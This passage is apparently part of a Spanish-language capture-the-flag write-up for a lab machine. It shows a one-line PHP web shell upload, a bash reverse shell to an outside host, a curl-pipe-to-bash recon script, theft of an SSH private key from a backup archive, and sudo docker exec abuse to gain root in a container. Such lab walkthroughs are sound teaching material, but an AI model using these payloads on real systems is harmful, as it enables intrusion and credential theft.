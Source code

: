 ![notebook5](https://user-images.githubusercontent.com/96772264/210068053-6ce55675-e538-4e67-9c2a-da2e6a165a60.PNG)

Si subimos en uploads un shell.php con este contenido... ```<?php system($_REQUEST['cmd']); ?>```
Nos dan la ruta c214a2fb80bab315fc328a5eff2892b5.php (hace un md5) -> ```md5sum shell.php c214a2fb80bab315fc328a5eff2892b5  shell.php```

Hay un botón de "view" para acceder ```http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php```
```console
└─$ curl -s http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php?cmd=whoami
www-data
```

Si no hay reglas de firewall, tendríamos acceso al sistema.
```http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'```

Subimos nuestro [script](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh) de reconocimiento
```console
www-data@thenotebook:/tmp$ curl -s http://10.10.14.16/lin_info_xii.sh | bash
...
	>  Backups
/var/backups/home.tar.gz

www-data@thenotebook:/var/backups$ cp ./home.tar.gz /tmp
www-data@thenotebook:/tmp$ tar -xf home.tar.gz
www-data@thenotebook:/tmp$ cd ./home/noah/.ssh
www-data@thenotebook:/tmp/home/noah/.ssh$ cat id_rsa  # La llave de noah
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa noah@10.10.10.230
```

--------------------------
# Part 4: Docker breackout

Enumeramos otra vez el sistema y nos topamos con:
```console
  >  SUDO NO PASSWD (sudo -l)
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01
Usage:  docker exec [OPTIONS] CONTAINER COMMAND [ARG...]. Run a command in a running container

noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 "whoami" # -> root
noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 bash 
root@0f4c2517af40:/opt/webapp#
```
Ya con eso estamos en el contenedor.
Este directorio tiene la web:
```console
root@0f4c2517af40:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key	requirements.txt  static  templates  webapp.tar.gz
root@0f4c2517af40:/opt/webapp# cat create_db.py
(...)
User(username='admin', email='admin@thenotebook.local', uuid=admin_uuid, admin_cap=True, password="0d3ae6d144edfb313a9f0d32186d4836791cbfd5603b2d50cf0d9c948e50ce68"),
User(username='noah', email='noah@thenotebook.local', uuid=noah_uuid, password="e759791d08f3f3dc2338ae627684e3e8a438cd8f87a400cada132415f48e01a2")
(...)
```
Pero no las podemos romper.
Encuentro en google [esto](https://github.com/Frichetten/CVE-2019-5736-PoC) al poner ```docker 18.06.0-ce exploits github```
```console
noah@thenotebook:~$ docker --version
```